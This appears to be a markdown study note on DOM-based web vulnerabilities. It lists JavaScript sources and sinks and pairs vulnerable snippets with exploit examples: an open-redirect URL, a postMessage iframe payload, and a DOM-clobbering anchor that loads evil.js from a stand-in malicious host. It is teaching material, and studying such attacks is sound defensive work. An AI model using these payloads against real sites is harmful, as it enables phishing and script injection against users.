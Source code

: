 ## What is DOM?

- Document Object Model - web browser's hierarchical representation of the elements on the page
- Websites can use JS to manipulate the nodes and objects of the DOM, as well as their properties
- DOM based vulnerabilities arise when a website contains JS that takes an attacker-controllable value known as a source, and passes it into a dangerous function known as a sink

## Source

- a JS property that accepts data that is potentially attacker-controlled
- eg - `location.search` property as it reads the input from the query string which is relatively simple for an attacker to control
- any property that can be controlled by the attacker is a potential source
- this includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the `document.cookie` string) , and web messages

## Sinks

- potentially dangerous JS function or DOM object that can cause undesirable effects if attacker-controlled data is passed to it
- eg - `eval()` function as it processes the argument that is passed to it as JS
- example of HTML sink is `document.body.innerHTML` as it potentially allows the attacker to inject malicious HTML and execute arbitary JS

- Fundamentally, DOM-based vulnerabilities arise when a website passes data from a source to a sink, which then handles the data in an unsafe way in the context of the client's session
- eg -

```js
var goto = location.hash.slice(1);
if (goto.startsWith("https:")) {
  location = goto;
}
```

- this leads to `DOM-based open redirection` as the `location.hash` source is handled in an unsafe way
- if the URL contains a hash fragment that starts with https:, this code extracts the value of the location.hash property and sets it as the location property of the window
- attacker can exploit this vulnerability by constructing the following URL:

```
https://www.innocent-webiste.com/example#https://www.evil-website.com
```

- When a victim visits this URL, the JS sets the value of the location property to `https://www.evil-website.com`, which automatically redirects the victim to the malicious site

## Common sources

```js
document.URL;
document.documentURI;
document.URLUnencoded;
document.baseURI;
location;
document.cookie;
document.referrer;
window.name;
history.pushState;
history.replaceState;
localStorage;
sessionStorage;
IndexedDB;
Database;
```

## Common Sinks

| DOM-based vulnerability          | Example sink             |
| -------------------------------- | ------------------------ |
| DOM XSS                          | document.write()         |
| Open redirection                 | window.location          |
| Cookie manipulation              | document.cookie          |
| JS injection                     | eval()                   |
| Document-domain manipulation     | document.domain          |
| WebSocket-URL poisoning          | WebSocket()              |
| Link manipulation                | element.src              |
| Web message manipulation         | postMessage()            |
| Ajax request-header manipulation | setRequestHeader()       |
| Local file-path manipulation     | FileReader.readAsText()  |
| Client-side SQL injection        | ExecuteSql()             |
| HTML5-storage manipulation       | sessionStorage.setItem() |
| Client-side XPath injection      | document.evaluate()      |
| Client-side JSON injection       | JSON.parse()             |
| DOM-data manipulation            | element.setAttribute()   |
| Denial of service                | RegExp()                 |

### DOM-based Open redirection

- arise when a script writes attacker-controlled data into a sink that can trigger cross-domain navigation
- eg - vulnerable due to the unsafe way it handles the `location.hash` property

```js
let url = /https:?:\/\/.+/.exec(location.hash);
if (url) {
  location = url[0];
}
```

- attacker may be able to use this vulnerability to contruct a URL that if visited by another user, will cause a redirection to an arbitary external domain

**Impact**

- phishing attacks against users of the website

- Sinks that lead to DOM-based Open Redirection

```
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```

### DOM-bsaed cookie manipulation

- arises when a script writes attacker-controllable data into the value of a cookie
- attacker has to construct a URL that if visited by another user, will set an arbitary value in the user's cookie
- eg - JS writes data from a source into `document.cookie` without sanitizing it first, an attacker can manipulate the value of a single cookie to inject arbitary values

```javascript
document.cookie = "cookieName=" + location.hash.slice(1);
```

> `document.cookie` sink can lead to DOM-based cookie-manipulation vulnerabilities

### Controlling Web Message source

- consider the following code:

```html
<script>
  window.addEventListener("message", function (e) {
    eval(e.data);
  });
</script>
```

- This is vulnerable because an attacker could inject a JS payload by constructing the following iframe:

```html
<iframe
  src="//vulnerable-website"
  onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')"
></iframe>
```

### DOM clobbering

- technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JS on the page
- useful in cases where XSS is not possible but can control some HTML on a page where the attributes id or name are whitelisted

- eg - you can use DOM objects to overwrite other JS objects and exploit unsafe names, such as `submit` to interfere with a form's actual `submit()` function

```html
<script>
  window.onload = function () {
    let someObject = window.someObject || {};
    let script = document.createElement("script");
    script.src = someObject.url;
    document.body.appendChild(script);
  };
</script>
```

- To exploit the vulnerable code ,

```html
<a id="someObject"
  ><a id=someObject name=url href=//malicious-website.com/evil.js></a
>
```
